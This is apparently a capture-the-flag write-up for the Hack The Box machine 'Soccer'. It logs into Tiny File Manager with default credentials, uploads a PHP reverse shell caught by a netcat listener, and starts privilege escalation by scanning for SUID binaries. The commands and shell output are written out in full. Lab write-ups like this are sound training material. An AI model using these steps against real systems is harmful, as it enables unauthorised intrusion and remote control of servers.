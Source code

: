we found a login page to the H3K Tiny File Manager.

![image](/images/Pasted image 20230115130708.png)

we googled for `default credentials` and got a hit.

![image](/images/Pasted image 20230115130812.png)

with these credentials we could log into the file manager.
`admin:admin@123`

next step is to upload a reverse shell. we are allowed to upload files to `tiny/uploads`
before uploading we are setting up our listener on the attacking machine.

```
nc -lvnp 4444
```

```shell
http://soccer.htb/tiny/uploads/php-reverse-shell.php
```

an we got a shell.

```
listening on [any] 4444 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.11.194] 35722
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 12:15:33 up  1:39,  3 users,  load average: 0.09, 0.16, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$

```

## Privileges Escalation

the user we found on the system is called `player`.
we scanned for suid-bit and got this output

```shell
www-data@soccer:/home/player$ find / -perm -u=s -type f 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
/snap/snapd/17883/usr/lib/snapd/snap-confine
/snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
```